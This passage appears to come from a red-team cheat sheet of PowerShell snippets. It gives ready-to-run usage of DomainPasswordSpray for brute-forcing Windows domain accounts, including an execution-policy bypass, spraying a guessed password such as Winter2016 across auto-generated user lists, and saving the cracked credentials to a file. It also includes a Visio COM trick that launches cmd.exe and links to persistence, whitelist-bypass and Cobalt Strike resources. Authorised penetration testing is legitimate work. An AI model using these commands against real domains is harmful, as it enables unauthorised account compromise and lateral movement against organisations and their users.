 ### DomainPasswordSpray (Internal Windows Domain Password Brute Forcing)

Source: https://github.com/dafthack/DomainPasswordSpray

DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

#### Quick Start Guide

Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.

    Type 'Import-Module Invoke-DomainPasswordSpray.ps1'.

The only option necessary to perform a password spray is either -Password for a single password or -PasswordList to attempt multiple sprays. When using the -PasswordList option Invoke-DomainPasswordSpray will attempt to gather the account lockout observation window from the domain and limit sprays to one per observation window to avoid locking out accounts.

The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2016.

    PowerShell Invoke-DomainPasswordSpray -Password Winter2016

The following command will use the userlist at users.txt and try to authenticate to the domain "domain-name" using each password in the passlist.txt file one at a time. It will automatically attempt to detect the domain's lockout observation window and restrict sprays to one attempt during each window. The results of the spray will be output to a file called sprayed-creds.txt

    PowerShell Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

#### Invoke-DomainPasswordSpray Options

    UserList - Optional UserList parameter. This will be generated automatically if not specified.
    Password - A single password that will be used to perform the password spray.
    PasswordList - A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
    OutFile - A file to output the results to.
    Domain - A domain to spray against.
 
### Misc Powershell Pasties

List Removeable Drives

    Get-WmiObject Win32_LogicalDisk | Where-Object {($_.DriveType -eq 2) -and ($_.DeviceID -ne 'A:')} | %{"USB_PROCESS_DETECTED: " + $_.ProviderName + "`n"}

Random Execution Method

    $visio = [activator]::CreateInstance([type]::GetTypeFromProgID("visio.application", "system1"))
    $docs = $visio.Documents.Add("")
    $docs.ExecuteLine('CreateObject("Wscript.Shell").Exec("cmd.exe")')

## Mimikatz


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond
